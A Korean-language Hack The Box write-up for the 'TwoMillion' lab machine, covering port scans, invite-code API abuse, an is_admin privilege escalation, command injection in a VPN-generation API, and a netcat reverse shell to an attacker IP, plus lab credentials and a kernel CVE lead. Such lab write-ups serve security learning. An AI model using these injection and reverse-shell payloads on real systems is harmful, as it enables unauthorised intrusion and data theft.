








> write-up 컨텐츠의 경우 제가 풀었던 의식의 흐름을 기억해놓고자 작성합니다. 두서 없이 정리된 만큼, 문제 풀이는 다른 분꺼 참고를 추천합니다.
{: .prompt-tip }


## [0x00] port scan 
---
port scan 결과를 보면 ssh와 http가 열려있음을 알 수 있고, 접속 시 'http://2million.htb/'로 redirect 됨을 알 수 있다.
``` bash
┌──(root㉿kali)-[/home/user/htb/Log4jUnifi]
└─# nmap -sCV 10.10.11.221
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-12 05:57 EDT
Nmap scan report for 10.10.11.221
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

http://2million.htb/ 에 접속 시도 시 연결이 되지 않는 것을 알 수 있다. htb에서 이런 경우에는 /etc/hosts 파일을 수정해주어야 한다. 수정 시 정상적으로 접근 된다.
``` bash
┌──(root㉿kali)-[/home/user/htb]
└─# curl http://2million.htb/
curl: (6) Could not resolve host: 2million.htb

┌──(root㉿kali)-[/home/user/htb]
└─# echo '10.10.11.221 2million.htb' >> /etc/hosts

┌──(root㉿kali)-[/home/user/htb]
└─# curl http://2million.htb/
<!DOCTYPE html>
<html lang="en">

<head>

    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
```


## [0x01] web site
---
웹 페이지 방문 시 아래와 같은 모습이 보이며, 특별한 기능은 없고 login 기능이 동작한다.



login 관련해서 sql injection이 동작할 듯 하여, sqlmap을 실행해보았으나 별 다른 소득은 없다.
``` bash
┌──(root㉿5a6b886b0929)-[~]
└─# sqlmap -u http://2million.htb/login --cookie="PHPSESSID=cava0m1a2hvo6f7kjvrjpdqas5"  dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.2#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:22:12 /2024-03-12/

[14:22:12] [WARNING] you've provided target URL without any GET parameters (e.g. 'http://www.site.com/article.php?id=1') and without providing any POST parameters through option '--data'
do you want to try URI injections in the target URL itself? [Y/n/q]

[14:22:18] [INFO] testing connection to the target URL
[14:22:18] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:22:19] [INFO] testing if the target URL content is stable
[14:22:19] [INFO] target URL content is stable
[14:22:19] [INFO] testing if URI parameter '#1*' is dynamic
got a 301 redirect to 'http://2million.htb/404'. Do you want to follow? [Y/n]

[14:22:24] [INFO] URI parameter '#1*' appears to be dynamic
[14:22:25] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[14:22:26] [INFO] testing for SQL injection on URI parameter '#1*'
[14:22:26] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:22:31] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:22:33] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:22:35] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'

...

[14:22:58] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] y
[14:23:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[14:23:48] [WARNING] URI parameter '#1*' does not seem to be injectable
[14:23:48] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 14:23:48 /2024-03-12/
```

gobuster로 스캔 시 에러와 함께 제대로 동작하지 않는다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster dir -u http://2million.htb/login -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
...
Error: the server returns a status code that matches the provided options for non existing urls. http://2million.htb/login/7a655d81-ea16-48b7-b7f9-74fbe6a659ab => 301 (Length: 162). To continue please exclude the status code or the length
```

문제 원인을 파악해보니 특정 상태값 처리 떄문으로, [github 커뮤니티](https://github.com/OJ/gobuster/issues/276#issuecomment-1009422173)에 나온 것과 같이 `-b xxx`을 지정해주니 잘 동작한다. 마찬가지로 별 다른 소득은 없다.
``` bash
┌──(root㉿5a6b886b0929)-[~]
└─# gobuster dir -u 2million.htb/ -w dsstorewordlist.txt -b 301
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://2million.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   301
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/api                  (Status: 401) [Size: 0]
/home                 (Status: 302) [Size: 0] [--> /]
/404                  (Status: 200) [Size: 1674]
/login                (Status: 200) [Size: 3704]
/register             (Status: 200) [Size: 4527]
/logout               (Status: 302) [Size: 0] [--> /]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
``` 


## [0x02] join page
---
웹 페이지를 둘러보면 생각보다 많은 기능이 존재하지는 않다. 그 중 회원가입으로 보이는 부분이 보인다.


임의의 값을 입력해서 진행하려 하니 정상적으로 진행되지 않는다.



해당 사이트의 코드를 보면 htb-frontend.min.js, inviteapi.min.js 파일을 갖고 오며, verify api 검증을 통해 /register 페이지로의 이동을 확인할 수 있다.



우선 inviteapi.min.js의 코드르 보자. 아래와 같이 난독화가 되어 있다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl http://2million.htb/js/inviteapi.min.js

eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

내용을 보면 난독화 되어 있는데, 각자 편한 방법으로 난독화를 풀면 된다. 나의 경우 [온라인 사이트](http://dean.edwards.name/unpacker/)를 통해 진행하였다😎. 해제된 내용은 아래와 같다. 주요 함수로 'verifyInviteCode'와 'makeInviteCode'가 존재한다.
``` javascript
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

```

makeInviteCode를 브라우저 console에서 실행한 결과 아래와 같이 나온다. ROT13으로 인코딩 되어있다는 힌트를 얻을 수 있다. 



물론 curl을 통해서도 실행할 수 있다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# curlcurl -X POST "http://2million.htb/api/v1/invite/how/to/generate" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   249    0   249    0     0    644      0 --:--:-- --:--:-- --:--:--   645
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
```

decode 결과는 아래와 같다. `/api/v1/invite/generate` API를 호출하여 invite code를 생성하라는 내용이다.
``` bash
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

이제 invite code를 생성해보자. response에 base64 값이 전달된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -X POST "http://2million.htb/api/v1/invite/generate" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    91    0    91    0     0    225      0 --:--:-- --:--:-- --:--:--   226
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "SzRTNVAtMVBYR0gtRlVPRzItWEc2MEk=",
    "format": "encoded"
  }
}
```

생성된 값을 base64로 decoding 하여 invite 페이지에서 입력 시 register 페이지로 이동되며, 회원가입을 진행 할 수 있다.


회원 가입한 계정 정보로 로그인 시 아래와 같은 페이지를 맞이하게 된다.



## [0x03] get admin role
---

HTB와 유사한 페이지를 돌아다니다 보면 `/api/v1/user/vpn/generate`라는 api를 호출하여 ovpn 파일을 다운로드 한다. 이후 `/api/v1` 경로를 호출하면 해당 사이트에서 사용 가능한 api의 목록을 확인할 수 있다. 그 중 admin과 관련된 부분도 있으니 잘 살펴보자.
``` json
┌──(root㉿kali)-[/home/user]
└─# curl -XGET "http://2million.htb/api/v1" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" | jq

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

admin 관련된 항목 중 내 자신이 admin인지 체크하는 항목으로 추정되는 api가 보여 호출하였으나, 당연히 false가 나타난다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -XGET "http://2million.htb/api/v1/admin/auth" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9"
{"message":false}
```

그러던 중 user 단 api에 유사한 `/api/v1/user/auth` 라는 api가 보이기에 호출해보았다. 오...😃 `is_admin`이라는 항목이 매우 변조마렵게 생겼다. 뭔가 `/api/v1/admin/settings/update` 라는 api를 쓰면 되지 않을까싶다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -XGET "http://2million.htb/api/v1/user/auth" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9"
{"loggedin":true,"username":"readmin","is_admin":0}
```

바로 put method를 통해 is_admin을 '1'로 변조하여 전송해보았다. content type을 맞춰주고 다시 전송해보니 email이란 파라미터의 부재를 알려준다. 
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -XPUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -d '{"loggedin":true,"username":"readmin","is_admin":1}'
{"status":"danger","message":"Invalid content type."}

┌──(root㉿kali)-[/home/user]
└─# curl -XPUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -d '{"loggedin":true,"username":"readmin","is_admin":1}' -H "Content-Type: application/json"
{"status":"danger","message":"Missing parameter: email"}
```

email 파라미터를 추가하여 전송하였더니...Good..👍 이제 admin으로 진화하였다.
``` bash 
┌──(root㉿kali)-[/home/user]
└─# curl -XPUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -d '{"loggedin":true,"username":"readmin","is_admin":1, "email":"readmin@readmin.com"}' -H "Content-Type: application/json"
{"id":13,"username":"readmin","is_admin":1}

┌──(root㉿kali)-[/home/user]
└─# curl -XGET "http://2million.htb/api/v1/admin/auth" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9"
{"message":true}
```


## [0x04] connect shell
---

`/api/v1/admin/vpn/generate` api는 어떤 기능인지 알아보자. ovpn 파일을 생성하는 api로 보인다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -XPOST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -H "Content-Type: application/json" -d '{"u'{"username":"readmin"}'
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
BQAwgYgxCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxv
bmRvbjETMBEGA1UECgwKSGFja1RoZUJveDEMMAoGA1UECwwDVlBOMREwDwYDVQQD
DAgybWlsbGlvbjEhMB8GCSqGSIb3DQEJARYSaW5mb0BoYWNrdGhlYm94LmV1MB4X
DTIzMDUyNjE1MDIzM1oXDTIzMDYyNTE1MDIzM1owgYgxCzAJBgNVBAYTAlVLMQ8w
DQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxvbmRvbjETMBEGA1UECgwKSGFja1Ro
```

다양한 방법으로 username 파라미터에 테스트하였으나, 알 수가 없어 결국 공략을 참고하였다. username에 `;[command];`와 같은 형태로 넣어주면 된다. 맨 뒤에 `;`를 넣지 않아 계속 공격이 되지 않았다...🤢
``` bash
┌──(root㉿kali)-[/home/user]
└─# curl -XPOST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -H "Content-Type: application/json" -d '{"username":"readmin;ls;"}'

Database.php
Router.php
VPN
assets
controllers
css
fonts
images
index.php
js
views
```

이제 어떻게든 명령어를 넣을 수 있으니 nc 를 옮겨주고 shell을 얻어보자.
``` bash
# Victim
┌──(root㉿kali)-[/home/user] # nc 다운로드
└─# curl -XPOST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -H "Content-Type: application/json" -d '{"username":"readmin;/tmpcurl -o /tmp/nc http://10.10.14.36:8000/nc;"}'


┌──(root㉿kali)-[/home/user] # 실행 권한 부여
└─# curl -XPOST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -H "Content-Type: application/json" -d '{"username":"readmin;chmod +x /tmp/nc;"}'

┌──(root㉿kali)-[/home/user] # reverse shell 연결
└─# curl -XPOST "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=631oojvs6hjl3bvqmfttoiv0q9" -H "Content-Type: application/json" -d '{"username":"readmin;/tmp/nc 10.10.14.36 443 -e /bin/bash;"}'

# Hacker
┌──(root㉿kali)-[/home/user]
└─# nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.36] from 2million.htb [10.10.11.221] 51304

whoami      <--- 첫 명령어 입력
www-data

python3 -c 'import pty;pty.spawn("/bin/bash")'  <--- 두번째 명령어 입력

www-data@2million:~/html$ export TERM=xterm
www-data@2million:~/html$
```


프로세스 목록을 보니 php가 동작하고 있다. 이와 관련해 php 설정 파일과 환경 변수를 지정하는 .env 파일을 봐야 한다.
``` bash
root         937       1  0 05:02 ?        00:00:00 /usr/sbin/ModemManager
memcache    1153       1  0 05:02 ?        00:00:07 /usr/bin/memcached -m 64 -p
11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
root        1157       1  0 05:02 ?        00:00:00 /usr/sbin/cron -f -P
root        1158       1  0 05:02 ?        00:00:02 php-fpm: master process (/etc/php/8.1/fpm/php-fpm.conf)
root        1178       1  0 05:02 ?        00:00:00 nginx: master process /usr/s
```

설정 파일(php.ini)에는 별 다른 내용이 크게 존재하지는 않았다. 하지만 환경 변수 파일에는 DB admin 접속 정보가 존재하고 있다. 해당 패스워드로 sudo -s를 해보았으나 되지 않는다.
``` bash
www-data@2million:/etc/php/8.1/fpm$ find ~ -name '.env'
/var/www/html/.env
www-data@2million:/etc/php/8.1/fpm$
www-data@2million:/etc/php/8.1/fpm$ cat /var/www/html/.env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

www-data@2million:/etc/php/8.1/fpm$ sudo -s
[sudo] password for www-data:
Sorry, try again.
```

## [0x05] login mysql
---
db가 어느 port에서 동작하는지 한번 목록을 보니 높은 확률로 3306일 것 같다.
``` bash
www-data@2million:/etc/php/8.1/fpm$ netstat -nap
Proto Recv-Q Send-Q Local Address           Foreign Address         State	PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN		-
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN	1189/nginx: worker
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN		-
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN		-
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN		-
tcp        0      0 127.0.0.1:3306          127.0.0.1:33998         ESTABLISHED	-
tcp        0      0 127.0.0.1:35162         127.0.0.1:11211         ESTABLISHED	-
tcp        0      0 127.0.0.1:11211         127.0.0.1:35162         ESTABLISHED	-
tcp        0      1 10.10.11.221:41022      8.8.8.8:53              SYN_SENT	-
tcp        0    129 10.10.11.221:55240      10.10.14.36:443         ESTABLISHED	-
```

성공적으로 로그인된 것을 볼 수 있다. 다만, mysql 계정 권한도 root는 아니므로 추가적인 권한 상승 방법을 찾아야 한다.
``` bash
# login mysql
www-data@2million:/etc/php/8.1/fpm$ mysql -h 127.0.0.1 -P 3306 -u admin -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 62
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>

# mysql 권한 확인
www-data@2million:/etc/php/8.1/fpm$ ps -ef | grep mysql
mysql       1257       1  0 Mar28 ?        00:00:15 /usr/sbin/mariadbd
www-data    3767    3702  0 01:54 pts/0    00:00:00 grep mysql
```


``` bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb_prod           |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use htb_prod;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb_prod]> show tables;
+--------------------+
| Tables_in_htb_prod |
+--------------------+
| invite_codes       |
| users              |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [htb_prod]> select * from users;
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
| id | username     | email                      | password                                                     | is_admin |
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
| 11 | TRX          | trx@hackthebox.eu          | $2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq |        1 |
| 12 | TheCyberGeek | thecybergeek@hackthebox.eu | $2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK |        1 |
| 13 | readmin      | readmin@readmin.com        | $2y$10$wUicwMenr2X1rcObbs.5F.dJalk9iZGLRxDR1iKCDX7grrLhCP5EC |        1 |
+----+--------------+----------------------------+--------------------------------------------------------------+----------+
3 rows in set (0.001 sec)
```

admin이라는 local 계정이 실제로 있었다....여기에 로그인을 해야하는거였나...
``` bash
www-data@2million:~$ su admin
Password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:/var/www$
```


## [0x06] mail & cve
---
무엇을 해야할지 더 이상 감이 안잡히는 상황에서 Guide Mode의 설명을 보니 메일과 관련된 항목을 찾아야 하는 것 같다. linpeas.sh를 통해 확인해보니 아래와 같이 mail이 있다.
``` bash
╔══════════╣ Mails (limit 50)
      271      4 -rw-r--r--   1 admin    admin         540 Jun  2  2023 /var/mail/admin
      271      4 -rw-r--r--   1 admin    admin         540 Jun  2  2023 /var/spool/mail/admin


admin@2million:/tmp$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather      
```

OverlayFS 관련 커널 관련 취약점이 있는 것으로 보인다. 검색을 해보니 cve-2023-0386과 관련된 문제 같다.
> The OverlayFS vulnerability CVE-2023-0386: Overview, detection, and remediation

github 에서 [PoC](https://github.com/sxlmnwb/CVE-2023-0386)를 갖고와 공격을 시도하였다. 아래와 같이 `./fuse ./ovlcap/lower ./gc`까지 진행된 상태면 쉘을 하나 더 연결해주어야 한다.
